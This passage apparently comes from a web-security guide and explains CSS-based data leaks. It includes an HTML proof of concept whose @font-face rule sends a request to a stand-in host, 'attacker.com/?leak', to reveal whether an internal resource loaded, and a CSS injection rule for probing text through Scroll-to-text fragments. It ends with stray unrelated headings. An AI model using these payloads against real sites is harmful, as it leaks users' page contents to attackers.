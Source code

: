 ```html
src: url(http://attacker.com/?leak);
unicode-range:U+0041;
}

#poc0{
font-family: 'poc';
}

</style>
</head>
<body>

<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
</html>
```
1. **Custom Font Usage**:
- A custom font is defined using the `@font-face` rule within a `<style>` tag in the `<head>` section.
- The font is named `poc` and is fetched from an external endpoint (`http://attacker.com/?leak`).
- The `unicode-range` property is set to `U+0041`, targeting the specific Unicode character 'A'.

2. **Object Element with Fallback Text**:
- An `<object>` element with `id="poc0"` is created in the `<body>` section. This element tries to load a resource from `http://192.168.0.1/favicon.ico`.
- The `font-family` for this element is set to `'poc'`, as defined in the `<style>` section.
- If the resource (`favicon.ico`) fails to load, the fallback content (the letter 'A') inside the `<object>` tag is displayed.
- The fallback content ('A') will be rendered using the custom font `poc` if the external resource cannot be loaded.

### Styling Scroll-to-Text Fragment

The **`:target`** pseudo-class is employed to select an element targeted by a **URL fragment**, as specified in the [CSS Selectors Level 4 specification](https://drafts.csswg.org/selectors-4/#the-target-pseudo). It's crucial to understand that `::target-text` doesn't match any elements unless the text is explicitly targeted by the fragment.

A security concern arises when attackers exploit the **Scroll-to-text** fragment feature, allowing them to confirm the presence of specific text on a webpage by loading a resource from their server through HTML injection. The method involves injecting a CSS rule like this:
```css
:target::before { content : url(target.png) }
```
**Translation:**

---
### tlhIngan Hol
